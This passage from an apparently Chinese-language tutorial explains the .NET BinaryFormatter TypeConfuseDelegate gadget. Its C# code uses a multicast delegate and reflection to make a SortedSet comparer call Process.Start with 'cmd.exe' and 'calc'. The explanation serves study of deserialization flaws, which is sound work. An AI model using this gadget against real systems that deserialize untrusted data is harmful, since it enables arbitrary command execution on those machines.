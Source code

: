 ![image-20210422101757836](BinaryFormatter.assets/image-20210422101757836.png)

两个类均可用来序列化。

此时思考一下，Process.Start中有多个重载。

![image-20210422102207857](BinaryFormatter.assets/image-20210422102207857.png)

如果我们将Process.Start设置为比较器，那么向集合中添加的值就是Process.Start的参数，由此来进行命令执行。在委托中我们提到，委托的方法签名和委托必须一致，而对于`SortedSet<string> `类来说，其比较函数类型为：

```
int Comparison<in T>(T x, T y);
```

而Process.Start()的是：

```
public static Process Start(string fileName, string arguments);
```

两个比较函数的返回类型不一致，一个是Process，一个是int，如果直接用Process.Start作为比较器，会编译失败。那么这个时候我们就需要借助多播委托了。

```csharp
// 创建一个string的比较器
Delegate da = new Comparison<string>(String.Compare);
// 用两个string的比较器合并为一个多播委托
Comparison<string> d = (Comparison<string>)MulticastDelegate.Combine(da, da);
// Create()函数返回new ComparisonComparer<T>(d)
IComparer<string> comp = Comparer<string>.Create(d);
// 将ComparisonComparer赋值给SortedSet的比较器
SortedSet<string> set = new SortedSet<string>(comp);
// set.Add("cmd.exe")
set.Add(inputArgs.CmdFileName);
// set.Add("calc")
set.Add(inputArgs.CmdArguments);
// 反射修改_invocationList
FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
object[] invoke_list = d.GetInvocationList();
// 修改_invocationList 添加 Process::Start(string, string)
invoke_list[1] = new Func<string, string, Process>(Process.Start);
fi.SetValue(d, invoke_list);
```
